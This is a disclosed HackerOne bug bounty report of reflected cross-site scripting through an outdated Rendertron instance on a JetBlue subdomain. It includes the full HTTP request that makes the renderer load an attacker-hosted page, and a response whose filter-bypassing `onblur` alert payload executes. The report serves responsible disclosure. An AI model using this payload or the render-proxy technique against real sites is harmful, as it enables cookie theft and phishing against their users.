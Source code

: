 # XSS via Vuln Rendertron Instance At `██████████.jetblue.com/render/*`

## Report Details
- **Report ID**: 1853061
- **URL**: https://hackerone.com/reports/1853061
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-01-31T05:25:51.702Z
- **Disclosed**: 2023-06-20T18:06:11.073Z

## Reporter
- **Username**: qualw1n
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: jetblue

## Vulnerability Information
## Summary

I found that you have █████████ installed on your server, but it may not be up to date. i was able to get around ███'s xss block and get it to raise an alert. this is a type of xss that is mirrored and as soon as you send a link to a person, the xss runs. and in a malicious scenario, it would be very compatible. why?

because it takes the code from the uploaded page and runs it as a response on the server.

Now you may say this is normal for a render page.
But unfortunately, it is not normal for an xss code to work, and it works in a subdomain with your domain.

## Affected URL

- https://█████████.jetblue.com/render
- https://██████████.jetblue.com/
- https://█████.jetblue.com/render/https://berkaybasar.github.io/  $Vulnerable Point

## Request

```
GET /render/https://berkaybasar.github.io/ HTTP/2
Host: ███.jetblue.com
Cookie: _ga=GA1.2.948863714.1675140227; _gid=GA1.2.104763714.1675140227
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://█████████.jetblue.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

## Response

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Renderer: ██████████
Strict-Transport-Security: max-age=15724800; includeSubDomains
Via: 1.1 varnish, 1.1 varnish
Accept-Ranges: bytes
Date: Tue, 31 Jan 2023 05:20:05 GMT
Age: 0
X-Served-By: cache-iad-kjyo7100133-IAD, cache-hhn-etou8220066-HHN
X-Cache: MISS, MISS
X-Cache-Hits: 0, 0
X-Timer: S1675142405.512544,VS0,VE1332
Vary: Accept-Encoding
Content-Length: 182

<html><head><base href="https://berkaybasar.github.io/"></head><body><xss onblur="alert(1)" id="x" tabindex="1" style="display:block">test</xss><input value="clickme">
</body></html>

```

## VIDEO

{F2145532}

## Impact

phishing redirect , stealing cookies etc.

## Attachments
No attachments
